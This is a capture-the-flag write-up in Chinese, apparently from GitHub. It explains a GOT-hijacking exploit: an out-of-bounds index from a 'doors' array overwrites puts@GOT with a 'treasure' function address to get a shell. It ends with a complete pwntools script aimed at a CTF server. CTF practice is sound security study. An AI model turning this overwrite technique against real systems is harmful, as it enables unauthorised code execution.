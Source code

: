 
puts@GLIBC就是GOT位址

<img width="826" height="94" alt="image" src="https://github.com/user-attachments/assets/d49f1626-07a0-4fe8-aca7-cbd4d81500ba" />


當main呼叫 puts 的時候，他會跳到這個 puts@plt 的這個位置
plt的位址處於紅色這段，但我們發現0x404018是可以寫的

<img width="640" height="150" alt="image" src="https://github.com/user-attachments/assets/85b56d67-159f-43d1-9e87-4f15b3f3457f" />



所以我們發現可以透過改變puts 的GOT(Global Offset Table)來達成 GOT-Hijacking 然後跳到 treasure，以劫持程式執行流程並觸發任意程式碼執行，觸發RCE(Remote Code Execution)。

puts 函式在 GOT中的位址
```
puts = 0x404018
```

treasure是目標函式的地址，是我們希望控制流程跳轉到此位址以觸發RCE
```
doors = 0x4040a0
treasure = 0x40123b
```

所以算完offset等於doors要加多少會跑到got
```
offset = (puts - doors) // 8
```

發送第一個sendline，發送計算出的offset
發送第二個sendline，寫入 treasure 的位址，覆蓋GOT表中的 puts 函式位址

所以當程式執行到 puts 時，不再跳到原本的puts位址，而是跳到  treasure並執行程式碼，進入shell
```
p.sendline(str(offset).encode())
p.sendline(str(treasure).encode())
```

### Code:
```python
from pwn import *
context.arch = 'amd64'

p = remote('ctf.adl.tw', 10007)

puts = 0x404018
doors = 0x4040a0
treasure = 0x40123b

offset = (puts - doors) // 8

p.sendline(str(offset).encode())
p.sendline(str(treasure).encode())

p.interactive()
p.close()
           
```
